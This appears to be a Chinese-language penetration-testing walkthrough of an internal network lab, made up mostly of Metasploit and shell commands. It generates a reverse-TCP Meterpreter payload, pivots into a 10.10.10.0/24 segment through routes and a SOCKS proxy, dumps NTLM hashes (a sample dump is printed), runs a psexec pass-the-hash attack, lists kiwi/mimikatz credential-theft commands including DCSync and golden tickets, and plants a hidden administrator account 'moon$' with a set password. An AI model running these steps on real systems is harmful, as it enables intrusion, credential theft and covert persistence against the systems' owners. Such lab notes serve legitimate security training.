

拓扑图

dmz隔离区

数据库 备份服务器 物理隔

生成攻击载荷

```bash
msfvenom  -p windows/meterpreter/reverse_tcp lhost=192.168.31.115 lport=12345 -f exe >/var/www/html/s.exe
```

本地监听

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.31.150
set lport 12345
exploit
```

 增加路由

```bash
run autoroute -s 10.10.10.0/24
```

 查看路由别表

```bash
route
```

 清空路由 

```bash
run autorute -d 
```

**提权命令**

sysinfo	查看系统信息	

route	查看路由表	

ps	进程	

migrate	注入进程	

1836  1820  explorer.exe

```bash
migrate  1836
```

getuid	当前用户

getprivs	尽可能提升权限

getsystem	通过各种攻击向量来提升系统用户权限

**shell 命令**

中文乱码

```bash
chcp 65001
```

增加管理员

```bash
net user moon$ moon123 /add & net localgroup administrators moon$ /add
```

检测存活IP

```
run post/multi/gather/ping_sweep RHOSTS=10.10.10.0/24
run post/windows/gather/arp_scanner RHOSTS=10.10.10.0/24
```


后台运行、查看sessions

```
background
sessions -i
```

socket代理 用namp 扫描内网的ip的服务(**注意需要先添加路由**)

```bash
use auxiliary/server/socks_proxy
set SRVPORT 1080
set VERSION   4a
run
```

修改/etc/prxoychains.conf

```bash
socks4  127.0.0.1 1080
```

扫描10段的128到143的机子，假如有开放22、80、445、3306端口保存到10.10.10.0.txt

```bash
proxychains nmap -sT -Pn -p 445,22,80,3306 10.10.10.128 10.10.10.129 10.10.10.132 10.10.10.134 10.10.10.143 --open -oN 10.10.10.0.txt
```


 445开放尝试hash攻击，hash获取 

```
run hashdump #或者
run post/windows/gather/smart_hashdump
```



smb 传递hash攻击

```bash
background
use exploit/windows/smb/psexec
set payload windows/meterpreter/bind_tcp 
show options
set RHOST 10.10.10.134
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4
exploit
```


hash 在线解密

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
MYSQL_USER:1008:aad3b435b51404eeaad3b435b51404ee:df4116c6e6bf327aa4920b009b191c9e
APP_IWAM_9335038:1009:aad3b435b51404eeaad3b435b51404ee:17cf70de84afdc5d92f0b05215babf0c
PhpMyAdmin_USER:1010:aad3b435b51404eeaad3b435b51404ee:f972f31439348965c521836749e32ba0
moon$:1012:aad3b435b51404eeaad3b435b51404ee:ea2374ffaee2c1c02492a338ed450d23
```

 密码收集

mimikatz以被kiwi替代，自带的命令来从目标机器上导出hash和明文证书。

加载kiwi模块(需要SYSTEM权限)

```bash
load kiwi  
```

查看kiwi模块的使用

```bash
help kiwi
```

kiwi命令详解

```bash
creds_all：列举所有凭据（可以列举系统中的明文密码）
creds_kerberos：列举所有kerberos凭据
creds_msv：列举所有msv凭据
creds_ssp：列举所有ssp凭据
creds_tspkg：列举所有tspkg凭据
creds_wdigest：列举所有wdigest凭据
dcsync：通过DCSync检索用户帐户信息
dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
golden_ticket_create：创建黄金票据
kerberos_ticket_list：列举kerberos票据
kerberos_ticket_purge：清除kerberos票据
kerberos_ticket_use：使用kerberos票据
kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
lsa_dump_sam：dump出lsa的SAM
lsa_dump_secrets：dump出lsa的密文
password_change：修改密码
wifi_list：列出当前用户的wifi配置文件
wifi_list_shared：列出共享wifi配置文件/编码 
```


开启远程连接

```bash
run getgui -e
```

增加帐号（可能会失败）

```bash
run getgui -u moon$ -p moon123
```

获取系统权限

```bash
shell
```

添加用户

```bash
net user moon$ moon123 /add & net localgroup administrators moon$ /add
```

端口转发

```bash
proxychains rdesktop -u moon$ -p moon123 10.10.10.134
```


